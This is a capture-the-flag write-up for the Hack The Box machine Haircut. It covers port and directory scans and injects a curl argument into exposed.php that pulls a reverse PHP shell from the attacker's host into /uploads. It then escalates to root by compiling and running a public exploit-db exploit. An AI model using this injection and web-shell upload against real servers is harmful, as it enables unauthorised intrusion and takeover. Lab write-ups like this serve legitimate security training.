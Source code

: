 ```yaml
---
layout: PostSimple
date: 2020-01-20
title:     "Hack The Box - Haircut"
tags: ['linux','medium','curl']
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-haircut/1.png)

We are going to pwn Haircut from Hack The Box.

Link :<https://www.hackthebox.eu/home/machines/profile/21>


Lets Begin with our Initial Nmap Scan.

Nmap Scan Results:

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
|_  256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser 
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 4.2 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP:
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-haircut/2.png)
Looks like normal webpage, Lets try bruteforcing the directories and look for anything interesting.

## Gobuster Results:
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.24
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/01/21 18:36:57 Starting gobuster
===============================================================
/index.html (Status: 200)
/uploads (Status: 301)
/test.html (Status: 200)
/hair.html (Status: 200)
/exposed.php (Status: 200)
===============================================================
2020/01/21 18:39:38 Finished
===============================================================
```

``/exposed.php`` 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-haircut/3.png)

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-haircut/4.png)
``curl`` is running in the server so lets interrupt the request in the ``burp`` and see what going on.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-haircut/5.png)
So by using ``curl`` we need to inject our payload inorder to get shell.

There is a way to upload reverse shell to the box using ``curl`` 
I started my HTTP server with ``Reverse PHP shell `` And we already know there is ``/uploads`` directory. 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-haircut/6.png)

```
http://10.10.14.17:8000/shell.php -o /var/www/html/uploads/shell.php

-o will Write the file in /uploads/
```
Now lets start our listener and open the ``shell.php`` in the ``/uploads``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-haircut/7.png)

We got the shell.


## Privilege Escalation:

I upload my Linux Enumeration Script and I found an SETUID binary
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-haircut/8.png)

There is an exploit available for this version.

> https://www.exploit-db.com/exploits/41154

Downloaded the script and tried executing it leads to some error , So I split the script into 3

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-haircut/9.png)

Did the commands given from the script as manually.

> gcc -fPIC -shared -ldl -o exploit.so exploit.c 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-haircut/10.png)

>gcc -o rootshell rootshell.c

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-haircut/11.png)

Then I uploaded all the scripts to the box
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-haircut/12.png)

And executed the last script ``root.sh``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-haircut/13.png)

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-haircut/14.png)
Got Root






